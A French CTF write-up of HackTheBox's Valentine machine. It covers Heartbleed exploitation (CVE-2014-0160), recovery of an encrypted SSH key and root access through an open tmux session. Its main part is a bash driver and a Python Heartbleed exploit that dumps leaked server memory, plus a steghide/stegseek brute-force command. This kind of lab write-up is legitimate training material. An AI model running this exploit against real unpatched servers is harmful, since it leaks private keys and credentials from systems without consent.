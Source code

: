 
---
title: "Valentine HTB"
date: 2025-08-04
description: "Résolution complète de la machine Valentine (retired) sur HackTheBox : failles Heartbleed, extraction de clés et accès SSH."
tags: ["HTB", "CTF", "Heartbleed", "Stego", "Linux", "Privilege Escalation"]
series: ["HTB Retired"]
---

## 🧠 Résumé

Cette machine `easy` exploite principalement une faille historique : **Heartbleed (CVE-2014-0160)**. Le but : extraire des données sensibles en mémoire, dont une **clé privée** chiffrée, brute-force son mot de passe, et obtenir une session SSH. Ensuite, une élévation de privilèges permet de récupérer le flag `root.txt`.

---

## 🔎 Enumération

### 🔍 Nmap

```bash
nmap -p- -T4 valentine.htb
```

Services identifiés :

- **22/tcp** - SSH (version ancienne)
- **80/tcp** - HTTP (Apache/2.2.22 Ubuntu)
- **443/tcp** - HTTPS

---

## 🎨 Analyse Web & Stegano

Sur le site HTTP : une image `omg.jpg`.

J’ai testé :

```bash
steghide extract -sf omg.jpg
stegseek --wordlist=/usr/share/wordlists/rockyou.txt omg.jpg
```

Aucune donnée utile. L’image ne cache probablement rien d’intéressant.

---

## 🔓 Analyse de /dev via le port 80

Deux fichiers sont accessibles :

- `notes.txt` (liste de tâches, pas de données sensibles)
- `hype_key` (contenu long, suspect)

Le fichier `hype_key` est un **dump hexadécimal** d’une **clé privée SSH chiffrée**.

---

## 🩸 Exploitation Heartbleed

Un scan Nmap confirme que le serveur est **vulnérable** à Heartbleed :

```bash
nmap -p 443 --script ssl-heartbleed valentine.htb
```

Pour automatiser les tests Heartbleed, j’ai écrit le script suivant :

### 🔁 Script `heartbleed_full.sh`

```bash
#!/bin/bash
# heartbleed_full.sh : automation du test Heartbleed + extraction ASCII

echo -n "🔢 Nombre d'itérations Heartbleed à exécuter : "
read NB

mkdir -p dumps

for i in $(seq -w 1 $NB); do
    echo "➡️  [Iteration $i]..."
    python2 heartbleed-exploit.py valentine.htb --output dumps/out_$i.txt --ascii &>/dev/null
done

echo "🧪 Extraction des chaînes ASCII utiles (>4 caractères)..."
strings dumps/out_*.txt | grep -Eo '[[:print:]]{5,}' | sort | uniq > out_ascii-full.txt

echo "✅ Fichier final généré : out_ascii-full.txt"
```

---

### 🐍 Script Python `heartbleed-exploit.py`

Ce script Python envoie un **heartbeat malicieux** et enregistre les réponses (texte brut ou hexdump). Il accepte un paramètre `--ascii` pour n’extraire que la partie texte.

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import argparse
import struct
import socket
import sys

def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''<...OMIS POUR BREVETÉ>''')  # Trop long à inclure ici, déjà dans ton script original
hb = h2bin('''18 03 02 00 03 01 40 00''')

def recvall(sock, count):
    buf = b''
    while count:
        newbuf = sock.recv(count)
        if not newbuf:
            return None
        buf += newbuf
        count -= len(newbuf)
    return buf

def hexdump(payload, ascii_only, outfile):
    with open(outfile, 'w') as f:
        for b in range(0, len(payload), 16):
            lin = payload[b: b + 16]
            if ascii_only:
                text = ''.join(c if 32 <= ord(c) <= 126 else '' for c in lin)
                f.write(text)
            else:
                hex_bytes = ' '.join('%02X' % ord(c) for c in lin)
                ascii_text = ''.join(c if 32 <= ord(c) <= 126 else '.' for c in lin)
                f.write('%04x: %-48s %s\n' % (b, hex_bytes, ascii_text))
        f.write('\n')

def hit_heartbleed(s, output_file, ascii_only):
    s.send(hb)
    while True:
        hdr = s.recv(5)
        if not hdr:
            print '[!] EOF - serveur a fermé la connexion'
            return False
        typ, ver, ln = struct.unpack('>BHH', hdr)
        payload = recvall(s, ln)
        if not payload:
            print '[!] EOF dans le payload'
            return False
        if typ == 24:
            print '✅ Données enregistrées dans : %s' % output_file
            hexdump(payload, ascii_only, output_file)
            return True
        elif typ == 21:
            print '[!] Alerte SSL (type 21) reçue.'
            return False

def main():
    parser = argparse.ArgumentParser()
    parser.add_argument('host')
    parser.add_argument('--port', type=int, default=443)
    parser.add_argument('--output', default='out.txt')
    parser.add_argument('--ascii', action='store_true')
    args = parser.parse_args()

    print '🔌 Connexion à %s:%d...' % (args.host, args.port)
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((args.host, args.port))

    print '📤 Envoi de Client Hello...'
    s.send(hello)

    while True:
        hdr = s.recv(5)
        if not hdr:
            print '[!] Pas de réponse (handshake)'
            return
        typ, ver, ln = struct.unpack('>BHH', hdr)
        data = recvall(s, ln)
        if typ == 22 and ord(data[0]) == 0x0E:
            break

    print '🤝 Handshake terminé. 📡 Envoi heartbeat...'
    hit_heartbleed(s, args.output, args.ascii)
    s.close()

if __name__ == '__main__':
    main()
```

---

## 🏁 Connexion SSH

```bash
ssh -i hype_key_decrypted.pem hype@valentine.htb
```

---

## 🔼 Escalade de privilèges via tmux

Un processus root `tmux` est actif :

```bash
tmux -S /.devs/dev_sess
```

Connexion possible :

```bash
tmux a -t dev_sess
```

---

## 🎉 Conclusion

- ✅ Heartbleed pour l'accès mémoire
- 🔓 Clé SSH récupérée et déchiffrée
- 📈 Élévation via tmux root ouvert

> 💡 Ce writeup a été généré automatiquement à partir d’une session réelle, enrichie de notes personnelles et de scripts maison.
